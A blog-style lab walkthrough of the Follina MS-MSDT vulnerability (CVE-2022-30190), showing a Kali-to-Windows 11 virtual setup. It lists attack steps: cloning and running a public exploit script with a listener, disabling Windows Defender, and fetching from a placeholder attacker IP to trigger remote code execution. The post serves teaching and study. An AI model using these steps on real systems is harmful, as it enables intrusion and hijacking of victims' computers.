 ```yaml
---
title:  "Zero-Day CVE-2022-30190 MS-MSDT Follina"
excerpt: "In this post I will show you the MS-MSDT Follina exploit (CVE-2022-30190)."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . Exploit in Action!<br>

---

## This post is designed to teach you how to exploit the MS-MSDT Follina vulnerability!

---

### 1. Introduction

*I want to give thanks and credit to **John Hammond** and his work with the Huntress team identifying and showing exactly how this exploit works! Check out his [Youtube](https://www.youtube.com/watch?v=dGCOhORNKRk&ab_channel=JohnHammond) or the Huntress [blog](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).*

- At the bottom of this blog post I have a short GIF showing the exploit in action.

- This zero-day is a vulnerability which has been announced and unpatched for the past 2 days as of writing this article.

- The vulnerability takes advantage of the Microsoft Diagnostics Tool (MSDT) and other Microsoft utilities. 

- Basically, the attacker can send you a seemingly harmless word document, however, once you open the document (or even preview pane) the malicious remote code execution happens and the attacker has just infected your computer with a virus, a command and control access point, crypto coin miner, etc. 

---

### 2. My Setup

For my attack computer I ran kali Linux in VMWare Workstation 16 player using NAT and HOST virtualized ethernet adapters.

I ran my victim computer on an evaluation Windows 11 virtualized machine in VMWare Workstation 16 player using a HOST-Only virtualized ethernet adapter.

---

### 3. Exploit in Action!

John Hammond made the exploit accessible via his GitHub [here](https://github.com/JohnHammond/msdt-follina) as a simple python script which creates the malicious file, opens a listener, and hosts the malicious file.

**Prior to starting the exploit**

You may have malware protection and defender services for your endpoint hosting these Virtual Machines. It may stop your virtual machines from transferring and running the python script. Therefore, at your discretion you may need to turn off these services to see the functional exploit. 

*Proceed at your own risk*

**On Attack Device**


    #Step 1: 

    git clone https://github.com/JohnHammond/msdt-follina.git

    #Step 2:
    python3 Follina.py -r <port number of choice>

**On victim**

    #Step 3: Disable Windows Defender Real-Time Protection
![realtime](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/real-time.PNG)

    #Step 4: Open Powershell

    #Step 5:
    wget <attackerIP>:<port chosen in step 2>

You should have seen the Microsoft Diagnostics Tool load, and then you received connection at your listener on the attacking computer.

![gif](https://github.com/matthewomccorkle/matthewomccorkle.github.io/blob/a6f21de03fffc6c24b07f22c5f507cfe2e364aa4/_posts/assets/follina.gif?raw=true)

